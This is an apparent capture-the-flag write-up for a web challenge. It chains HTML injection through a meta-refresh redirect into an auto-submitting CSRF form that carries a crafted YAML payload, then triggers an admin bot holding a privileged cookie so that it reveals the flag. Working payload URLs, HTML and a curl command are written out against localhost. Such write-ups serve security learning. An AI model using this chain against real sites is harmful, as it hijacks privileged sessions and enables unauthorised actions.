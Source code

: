 
### Exploitation Chain

1. **Inject HTML into `index.php`**  
   Use the `html` parameter with a `<meta http-equiv="refresh">` redirect to our attacker server.  

   Example:
   ```
   http://localhost:5000/index.php?html=<meta http-equiv="refresh" content="0;url=http://localhost:8080/solve.html">
   ```

2. **Create malicious `solve.html`**  
   This form forces the bot to POST to `/admin.php` with a crafted `url` pointing to a YAML payload.
   ```html
   <!doctype html><meta charset="utf-8">
   <form id="f" action="http://localhost:5000/admin.php" method="POST">
     <input type="hidden" name="url"
       value="http://localhost:5000/admin.php/../index.php?html=- amount: 1000000
         currency: ZZZ
         op: BUY
       - amount: 1000000
         currency: ZZZ
         op: SELL
       - amount: 1
         currency: FL
         op: BUY">
   </form>
   <script>f.submit()</script>
   ```

   The payload buys `"FL"`, which triggers `admin.php` to print the flag.

3. **Send the report request**  
   Trigger the bot via `report.php` to visit our injected URL:
   ```bash
   curl "http://localhost:5000/report.php?url=http://localhost:5000/index.php?html=<meta http-equiv='refresh' content='0;url=http://localhost:8080/solve.html'>"
   ```

4. **Bot executes our payload**  
   - Bot visits `index.php` with injection.  
   - Redirects to our hosted `solve.html`.  
   - Form auto-submits to `admin.php` with malicious YAML.  
   - Since bot includes the `ADMIN_TOKEN` cookie, we get the flag.  

---

### Local Test

Running locally showed the bot visiting the injected page and executing successfully:
```
[xssbot] visiting url
--------------------------------
<head></head><body></body>
--------------------------------
[xssbot] complete
```
